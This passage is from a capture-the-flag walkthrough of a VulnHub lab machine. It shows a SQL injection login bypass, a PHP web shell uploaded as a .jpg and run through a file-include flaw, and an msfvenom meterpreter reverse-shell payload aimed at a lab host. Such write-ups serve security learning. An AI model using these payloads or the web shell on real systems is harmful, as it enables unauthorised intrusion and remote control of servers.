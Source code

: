 I tried to use users like user and admin in the query but none of them worked so I fired up Burp Intruder again to do some username enumeration.

Inserting the SQL-Injection payload as username und marking the missing username as injection point Burp was able to identify a user named `jeff`.

[![Login](/img/vulnhub_hackday_albania/user_enumeration_thumb.png)](/img/vulnhub_hackday_albania/user_enumeration.png)

So the final payload to bypass the login is

```
jeff'; --
```

which results in the query
```SQL
select junk from users where username='jeff';
```

We are greeted with a ticket system with the ability to upload files. I first tried to upload a simple PHP shell but the application responds with an error message saying only graphic files with certain extensions are allowed. Trying to simply change the `Content-Type` header does not work so I decided to upload a normal image to see how the application behaves.
After uploading we can call the ticket details and check out the image url.
The image is included with the following URL which renders the image as text so this could be a simple PHP include vulnerability.
```
http://192.168.56.101:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=image.jpg
```

![pwned](/img/vulnhub_hackday_albania/image_as_text.png)

So I just renamed my shell.php to shell.jpg and tried the upload again. After viewing the image in the ticket with
```
http://192.168.56.101:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=shell.jpg&cmd=id
```
we are able to execute commands as the www-data user.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

shell.php content:
```PHP
<?php echo shell_exec($_GET['cmd']); ?>
```

To make things easier I created a meterpreter binary with a jpg extension and uploaded it with a new ticket:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -o meterpreter.jpg LHOST=192.168.56.102 LPORT=1337
```

After making the binary executable with
```
http://192.168.56.101:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=shell.jpg&cmd=chmod%20%2bx%20./upload/meterpreter.jpg
```
